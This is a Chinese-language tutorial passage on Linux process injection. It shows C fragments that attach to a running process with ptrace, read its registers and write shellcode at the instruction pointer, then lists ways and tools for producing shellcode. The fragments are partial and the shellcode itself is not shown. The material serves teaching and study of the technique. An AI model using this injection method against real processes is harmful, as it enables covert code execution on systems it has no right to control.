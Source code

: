           long ptrace(enum __ptrace_request request, pid_t pid,  
                       void *addr, void *data);  
      
    

![]()

    
    
    target = atoi (argv[1]);  
    printf ("+ Tracing process %d\n", target);  
    if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)  
    {  
         perror ("ptrace(ATTACH):");  
         exit (1);  
    }  
    printf ("+ Waiting for process...\n");  
    wait (NULL);  
    

通过收集当前正在运行的进程的PID来附加到该进程。“通过使用ptrace调用连接到另一个进程，工具可以广泛控制其目标的操作。这包括对其文件描述符、内存和寄存器的操作。

我们只需使用PTRACE_ATTACH作为第一个参数来调用ptrace，并使用我们想要连接到的进程的pid作为第二个参数。之后，我们必须调用wait来等待指示连接进程完成的SIGTRAP信号。

    
    
      printf ("+ Getting Registers\n");  
      if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)  
        {  
          perror ("ptrace(GETREGS):");  
          exit (1);  
        }  
      
      printf ("+ Injecting shell code at %p\n", (void*)regs.rip);  
      inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);  
      regs.rip += 2;    
    

我们在这段代码中发现的第一件事是使用参数PTRACE_GETREGS调用ptrace。这个调用允许我们的程序从受控制的进程中检索寄存器的值。我们使用一个函数将shellcode注入到目标进程中。请注意，我们取的是regs.rip的值，它实际上包含目标进程的当前指令指针寄存器值。

 **生成Shellcode的方法**

    
    
     1.直接用十六进制代码编写shellcode。  
      
    2.编写汇编指令，然后提取操作码以生成shellcode。  
      
    3.用C编写，提取汇编指令，然后提取操作码，最后生成shellcode。  
    

所需工具:

    
    
     gcc-它是一个C和C++编译器。  
      
     ld–这是一个用于链接的工具。  
      
     nasm-Netwide汇编程序是一个可移植的80x86汇编程序  
      
     objdump–它是一个显示对象文件信息的工具。  
      
